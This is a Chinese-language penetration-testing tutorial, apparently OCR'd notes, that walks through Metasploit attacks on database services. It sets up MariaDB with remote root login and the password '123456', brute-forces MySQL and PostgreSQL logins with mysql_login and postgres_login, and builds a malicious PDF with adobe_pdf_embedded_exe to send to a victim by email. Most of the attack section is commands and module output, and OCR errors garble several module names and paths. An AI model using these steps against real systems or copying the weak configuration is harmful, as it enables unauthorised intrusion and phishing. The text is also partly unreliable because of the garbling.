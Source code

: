 #### 渗透攻击 MySQL数据库服务
- MySQL 是一个关系型数据库管理系统。在web 服务器应用方面，MySQL数据库通常是用户的最优选择。如果管理员配置不当，就可能存在漏洞，如弱密码、用户权限配置
错误等。此时，渗透测试者可以尝试对其实施渗透测试。在 MSF 控制终端，提供了一个辅助模块 mysql_login，可以用来实施弱密码破解。

```c
//搭建mariadb数据库
//1.安装mariadb
yum install mariadb*
//2.启动mariadb
systemctl start mariadb
//3.初始化mariadb配置
mysql_secure_installation
//4.开启mariadb远程访问
//1)进入数据库
mysql -u root -p
//2)进入mysql数据库
use mysql
//3)开启root用户远程用户登录权限
grant all on *.* to root@'%' identified by '123456' with grant option;
//*.*,表示可以访问任意数据的任意表
//'root'@'%', root表示远端登录使用的用户名,%表示允许任意ip登录,可将指定ip替换掉%, root与%可以自定义
//IDENTIFIED BY '123456' 这个123456是登录时的使用的密码
//4)刷新配置
flush privileges;
//5)使用以下命令查看远程用户是否添加
select host,user,password,from mysql.user;
//6)修改配置文件
//在 /etc/my.cnf.d 目录下的 mariadb-server.cnf 文件中,将bind-address设置为0.0.0.0，或者将其注释
//5.重启mariadb程序
systemctl restart mariadb
//6.远程登录命令
mysql -u root -h 192.168.10.1 -p

//使用mysql_login模块，渗透攻击 MySQL 数据库服务
//使用mysql_login 模块
msf5 > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary (scanner/mysq1/mysql login) >

//查看模块配置选项
msf5 auxiliary (scanner/mysql/mysql_login) > show options

//配置模块选项参数
//设置目标主机地址
msf5 auxiliary(scanner/mysql/mysql_login) > set RHOSTS 192.168.29.137
RHOSTS => 192.168.29.137
//设置用户文件
msf5 auxiliary (scanner/mysql/mysql login) > set USER FILE /root/users.txt
USER FILE => /root/users. txt
//设置密码文件
msf5 auxiliary(scanner/mysql/mysql login) > set USERPASS FILE /root/passwords. txt
USERPASS FILE => /root/passwords.txt

//实施渗透测试
msf5 auxiliary (scanner/mysql/mysql login) > exploit
```


#### 渗透攻击 PostgreSQL 数据库服务
- PostgerSQL 是一个自由的对象--关系数据库服务（数据库管理系统）。在某些情况下，用户也可以使用该数据库服务来存储数据，如 Metasploit。下面将介绍使用postgrs_login模块，对PostgreSQL数据库服务实施渗透测试
```c
//使用 postgres_login 模块，实施渗透攻击PostgreSQL数据库服务。
//选择postgres_login 模块
msf5 > use auxiliary/scanner/postgres/postgres login
msf5 auxiliary (scanner/postgres/postgres login >

//配置 RHOSTS 选项参数
msf5 auxiliary (scanner/postgres/postgres_ login) > set RHOSTS 192.168.29.137
RHOSTS =>192.168.29.137

//实施渗透测试
msf5 auxiliary(scanner/postgres/postgres login) > exploit
```

#### PDF 文件攻击
- PDF 是一种文件格式。该类型文件使用比较广泛，并且容易传输。在前面介绍的渗透测试方法，都是主动实施渗透测试。如果目标主机没有监听服务器类端口时，则需要使用被动渗透测试方式。此时，可以尝试向客户端发送一个带病毒的PDF文件，进而实施被动攻击。下面将介绍创建带病毒的 PDF文件，以实现被动滲透测试攻击
```c
//使用 Adobe PDF Embedded EXE 模块，创建 PDF 病毒文件
//使用adobe_pdf_embedded_exe 模块
msf> use exploit/windows/fileformat/adobe pdf embedded exe
msf5 exploit (windows/fileformat/adobe pdf embedded exe) >

//设置用户想要生成的 PDF 文件名
msf exploit (adobe pdf embedded exe) > set FILENAME test.pdf
FILENAME => test.pdf

//没置 INFILENAME选项。为了利用该PDF文件，使用该选项指定用户访问的PDF文件位置。如果用户没有一个合适的PDF攻击文件，也可以使用默认的模板文件template.pdf,则无须配置该选项
msf exploit (adobe pdf embedded exe) > set INFILENAME /root/evil.pdf
INFIIENAME => /root/evi1.pdf
//这里指定的PDF 文件中不能包含关键宇 Root。 否则，无法生成对应的带病毒PDF 文件。

//生成 PDF 病毒文件
msf exploit (adobe pdf embedded exe) > exploit
/*
输出的信息显示 test.pdf 文件己经生成，而且被保存到/usr/share/metasploit-framework/local 目录中。接下
来用户可以将创建好的 PDF 文件通过邮件或其他方式发送到目标主机，然后在本地建立监听。当目标主机用户打开该 PDF 文件时，将可能被攻击。
*/
